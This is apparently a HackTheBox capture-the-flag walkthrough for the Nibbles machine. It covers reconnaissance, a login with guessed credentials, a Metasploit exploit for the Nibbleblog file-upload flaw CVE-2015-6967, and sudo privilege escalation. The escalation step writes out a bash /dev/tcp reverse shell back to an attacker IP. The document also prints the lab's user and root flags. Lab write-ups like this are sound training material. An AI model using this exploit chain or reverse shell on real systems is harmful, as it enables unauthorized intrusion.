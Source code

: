 # HackTheBox Walkthrough - Machine: Nibbles

**Target IP**: 10.129.243.127  
**Difficulty**: Easy  
**Objective**: Exploit the NibbleBlog CMS to gain user and root access.

---

## Task 1: How many open TCP ports are listening on Nibbles?
Performed an Nmap scan:
```bash
nmap -sV -sC -oA nmap/Nibbles 10.129.243.127
```
**Open Ports**:
- 22/tcp (SSH)
- 80/tcp (HTTP)

**Answer**: `2`

---

## Task 2: What is the relative path on the webserver to a blog?
Inspected the source of the home page:
```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
**Answer**: `/nibbleblog`

---

## Task 3: What CMS is being used by the blog?
Accessed `/nibbleblog/` and checked the footer:
> Powered by Nibbleblog

**Answer**: `Nibbleblog`

---

## Task 4: What is the relative path to an XML file that contains the admin username?
Used feroxbuster to find XML files:
```bash
feroxbuster -u http://10.129.243.127/nibbleblog/
```
Found user config:
> /nibbleblog/content/private/users.xml

**Answer**: `/nibbleblog/content/private/users.xml`

---

## Task 5: What is the admin user's password?
Logged in via:
- **Username**: admin
- **Password**: Nibbles

**Answer**: `nibbles`

---

## Task 6: What version of Nibbleblog is running?
Checked settings after login:
> Nibbleblog 4.0.3 "Coffee"

**Answer**: `4.0.3`

---

## Task 7: What is the 2015 CVE for an authenticated file upload RCE?
Discovered via exploit-db:
> CVE-2015-6967

**Answer**: `CVE-2015-6967`

---

## Task 8: Which user is the Nibbleblog instance running as?
Used Metasploit module:
```bash
use multi/http/nibbleblog_file_upload
```
Gained meterpreter shell and ran `getuid`:
> `nibbler`

**Answer**: `nibbler`

---

## Submit User Flag
Read user flag from:
```bash
cat /home/nibbler/user.txt
```
**Answer**: `893797f82ce88e0b891bb58c95d80842`

---

## Task 10: What script can nibbler run as root?
Checked sudo permissions:
```bash
sudo -l
```
> (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

**Answer**: `monitor.sh`

---

## Submit Root Flag
Created reverse shell in monitor.sh:
```bash
#!/bin/bash
IP="10.10.14.156"
PORT=7777
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```
Ran it with:
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

Then:
```bash
cat /root/root.txt
```

**Answer**: `085806261dc17eb756f71d56190e185d`

---
